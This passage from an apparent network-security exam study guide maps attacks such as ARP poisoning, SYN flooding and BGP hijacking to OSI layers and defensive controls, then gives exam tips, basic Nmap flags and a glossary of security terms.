| **Routing Security** | Enable RPKI for BGP. | Validates route origins to prevent BGP Hijacking at the ISP level. |
| **Monitoring** | Forward logs to a central SIEM (with NTP enabled). | Centralizes threat hunting and ensures timestamps align for forensics. |
| **Monitoring** | Implement DNS Sinkholing & Encrypted DNS (DoH). | Blocks malware C2 communications and prevents DNS spoofing. |

### Attack Technique to Defense Mapping Table

| Attack Technique | Targeted OSI Layer | Primary Defensive Control |
| :--- | :--- | :--- |
| ARP Poisoning | Layer 2 (Data Link) | Dynamic ARP Inspection (DAI) |
| MAC Flooding | Layer 2 (Data Link) | Switch Port Security |
| SYN Flooding | Layer 4 (Transport) | SYN Cookies / Rate Limiting |
| OSPF Poisoning | Layer 3 (Network) | OSPF MD5/SHA Authentication |
| BGP Hijacking | Layer 3 (Network) | RPKI (Resource Public Key Infrastructure) |
| HTTP Request Smuggling | Layer 7 (Application) | WAF / Strict Header Normalization |
| SSL Stripping | Layer 6 (Presentation) | HTTP Strict Transport Security (HSTS) |
| Deauthentication Attack | Layer 2 (Data Link - Wireless) | WPA3 with Protected Management Frames (PMF) |

---

## Exam Tips & Common Traps
*   **Trap:** Assuming firewalls block all attacks. *Reality:* Firewalls only block unauthorized ports/protocols. If port 80 is open to host a web server, the firewall allows HTTP traffic. If that traffic contains an SQL Injection, the firewall will pass it right through to the database. Application-layer attacks (Layer 7) bypass standard network firewalls entirely (requiring a WAF).
*   **Exam Tip:** Memorize the exact OSI layer for specific attacks. SSL Stripping is **Layer 6 (Presentation)**. SYN Flooding is **Layer 4 (Transport)**. ARP Poisoning is **Layer 2 (Data Link)**.
*   **Trap:** Confusing DNS Spoofing with ARP Spoofing. ARP spoofing corrupts the local MAC address table (Layer 2). DNS spoofing corrupts the IP address resolution of a domain name (Layer 7). Often, ARP spoofing is used as the *vehicle* to execute a DNS spoofing attack.
*   **Exam Tip:** Know your Nmap flags natively. `-sS` is stealth/SYN, `-sT` is full connect, `-sV` is version detection, `-O` is OS detection.

## Key Terms Glossary
*   **ARP Cache:** A temporary memory table on a device that maps IP addresses to MAC addresses.
*   **Banner Grabbing:** The act of capturing the welcome message (banner) sent by a network service to identify its software version.
*   **Botnet:** A massive network of compromised, malware-infected devices controlled remotely by an attacker.
*   **CVE (Common Vulnerabilities and Exposures):** A standardized, public list of known cybersecurity flaws.
*   **Pcap (Packet Capture):** A file format containing intercepted network traffic, typically analyzed using Wireshark.
*   **Promiscuous Mode:** A configuration for a network interface card (NIC) allowing it to read all traffic passing across a network segment, rather than just traffic addressed to its own MAC.
*   **SIEM (Security Information and Event Management):** A central aggregation system that collects and analyzes security logs from across an entire network.
*   **Zero-Day:** A software vulnerability that is currently unknown to the vendor and has no available patch. (The vendor has had "zero days" to fix it).
